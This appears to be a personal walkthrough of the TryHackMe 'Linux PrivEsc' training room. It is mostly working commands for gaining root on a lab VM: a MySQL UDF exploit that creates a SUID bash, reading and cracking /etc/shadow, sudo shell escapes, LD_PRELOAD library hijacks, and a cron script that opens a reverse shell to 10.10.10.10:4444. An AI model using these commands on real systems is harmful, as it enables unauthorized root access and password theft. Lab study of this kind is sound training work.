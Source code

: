 ```yaml
---
description: >-
  Today is my Day 1 and I am going to solve machine named Linux PrivEsc on
  TryHackMe lets goo!!!!
---
```


# Day 1 — Linux PrivEsc

{% embed url="https://miro.medium.com/v2/resize:fit:640/format:webp/0*k-2t2eWJ08uuoBjZ.gif" %}

{% hint style="info" %}
**misconfigured** Debian VM with multiple ways to get root! SSH is available. <mark style="color:red;">**Credentials: user:password321**</mark>
{% endhint %}

### Service Exploits

**using nmap** \


<figure><img src="../../../../../.gitbook/assets/image (94).png" alt=""><figcaption><p>open ports</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
cd /home/user/tools/mysql-udf
gcc -g -c  raptor_udf2.c  -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
{% endcode %}

**I found misconfiger in sql login with out password**

{% hint style="info" %}
Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do\_system" using our compiled exploit:
{% endhint %}

A user-defined function (UDF) is a [function](https://en.wikipedia.org/wiki/Function\_\(programming\)) provided by the user of a program or environment, in a context where the usual assumption is that functions are built into the program or environment. UDFs are usually written for the requirement of its creator.

```bash
mysql -u root
```

<figure><img src="../../../../../.gitbook/assets/image (95).png" alt=""><figcaption></figcaption></figure>

```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

#### What is BLOB in MySQL?

BLOB, which stands for a **Binary Large Object**, is a MySQL data type that can store images, PDF files, multimedia, and other types of binary data.

<figure><img src="../../../../../.gitbook/assets/image (96).png" alt=""><figcaption></figcaption></figure>

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

```sql
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
/tmp/rootbash -p
```

<figure><img src="../../../../../.gitbook/assets/image (97).png" alt=""><figcaption><p>SERVICE EXPLOIT</p></figcaption></figure>

### Weak File Permissions - Readable /etc/shadow

**Read only => r**

{% code lineNumbers="true" %}
```bash
ll /etc/shadow
cat /etc/shadow
#hash root in file using nano
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>

**What hashing algorithm was used to produce the root user's password hash?**

```
cat hash | hashid
```

<figure><img src="../../../../../.gitbook/assets/image (99).png" alt=""><figcaption><p><strong>SHA-512  Crypt</strong></p></figcaption></figure>

### Weak File Permissions - Writable /etc/shadow

**Write only**

{% code lineNumbers="true" %}
```bash
ll /etc/shadow
cat /etc/shadow
mkpasswd -m sha-512 newpasswordhere #=> read only
or 
openssl passwd newpasswordhere => #wite only
su root

```
{% endcode %}

Generate a new password hash with a password of your choice:

<mark style="color:green;">**`mkpasswd -m sha-512 newpasswordhere`**</mark>\


<mark style="color:green;">**`openssl passwd newpasswordhere`**</mark>

### Sudo - Shell Escape Sequences

Visit GTFOBins ([https://gtfobins.github.io](https://gtfobins.github.io/)) and search for some of the program names. If the program is listed with “sudo” as a function, you can use it to elevate privileges, usually via an escape sequence.

```bash
#vim
sudo vim -c ':!/bin/bash'

#nano 
sudo nano -s /bin/bash
/bin/bash
^T
#apache2
sudo apache2 -f /etc/shadow #=> crack the hash and gain the root
```

## Task 7 — Sudo — Environment Variables <a href="#a6ec" id="a6ec"></a>

Using LD\_PRELOAD

```basic
 gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
 sudo LD_PRELOAD=/tmp/preload.so apache2
```

`ldd /usr/sbin/apache2`

```bash
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp apache2
```

### Cron Jobs - File Permissions

```bash
cat /etc/cronta

#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

using nc  in kali

```bash
nc -nvlp 4444
```

### Cron Jobs - PATH Environment Variable

**Note that the PATH variable starts with /home/user which is our user's home directory.**

**Create a file called overwrite.sh in your home directory with the following contents:**

```bash
cat /etc/crontab

#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

<mark style="color:green;">**`chmod +x /home/user/overwrite.sh`**</mark>

```basic
/tmp/rootbash -p
```

